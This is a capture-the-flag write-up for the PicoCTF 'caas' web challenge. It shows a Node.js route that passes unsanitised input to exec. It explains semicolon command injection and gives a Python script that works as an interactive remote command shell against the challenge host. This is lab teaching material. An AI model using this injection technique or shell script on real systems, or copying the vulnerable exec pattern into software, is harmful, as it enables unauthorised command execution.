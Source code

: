 # caas 
## picoctf web

[solve.py](solve.py)


### Its a web challenge from PicoCTF
We got a webpage with an input field that does cowsay command with input value when the input event is triggered.


## Vulnerable Code

```js
app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
 ```
 
 Here we can see exec is used which is one of the dangerous functions and another factor is that no input sanitations applied.
## POC

As we know about the vuln we can put a semi-colon ```;``` to gain arbitrary command execution. If a user wants to execute system commmads they can directly pass the command to the input after adding a semi-colon


## Exploitaion

A simple python script using cmd module
```python
import requests
import cmd

url = "https://caas.mars.picoctf.net/cowsay/hi;"

class Caas(cmd.Cmd):
	prompt = "(caas) => "

	def __init__(self):
		super(Caas, self).__init__()
		self.url = url 
		self.completedefault = None
	def default(self, args):
		if args in ['exit', 'EXIT', 'quit', 'QUIT']:
			exit()
		r = requests.get(self.url+str(args))
		print(r.text)

if __name__=='__main__':
	Caas().cmdloop()
```
